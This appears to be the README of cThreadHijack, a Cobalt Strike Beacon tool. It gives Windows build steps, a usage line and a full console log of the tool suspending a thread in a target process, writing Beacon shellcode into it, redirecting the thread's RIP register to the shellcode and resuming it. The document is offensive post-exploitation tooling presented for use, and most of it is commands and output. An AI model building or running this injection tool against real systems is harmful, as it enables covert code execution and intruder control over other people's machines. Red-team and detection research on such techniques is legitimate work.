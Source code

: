 
### BUILDING: ###
1. On a Windows machine, open a `x64 Native Tools Command Prompt for VS` prompt. This can be done by pressing the Windows key and typing `x64 Native Tools` and selecting the prompt.
2. Change directory to `C:\path\to\cThreadHijack`.
3. `nmake -f Makefile.msvc build`

### USAGE: ###
`cThreadHijack PID LISTENER_NAME`

```
beacon> cThreadHijack 7340 TESTING
[+] host called home, sent: 268433 bytes
[+] received output:
[+] Target process PID: 7340

[+] received output:
[+] Opened a handle to PID 7340

[+] received output:
[+] Found a thread in the target process! Thread ID: 10212

[+] received output:
[+] Suspending the targeted thread...

[+] received output:
[+] Wrote Beacon shellcode to the remote process!

[+] received output:
[+] Virtual memory for CreateThread and NtContinue routines allocated at 0x201f4ab0000 inside of the remote process!

[+] received output:
[+] Size of NtContinue routine: 64 bytes
[+] Size of CONTEXT structure: 1232 bytes

[+] Size of stack alignment routine: 4
[+] Size of CreateThread routine: 64
[+] Size of shellcode: 261632 bytes

[+] received output:
[+] Wrote payload to buffer to previously allocated buffer inside of!

[+] received output:
[+] Current RIP: 0x7ffa55df69a4

[+] received output:
[+] Successfully pointed the target thread's RIP register to the shellcode!

[+] received output:
[+] Current RIP: 0x201f4ab0000

[+] received output:
[+] Resuming the thread! Please wait a few moments for the Beacon payload to execute...
```
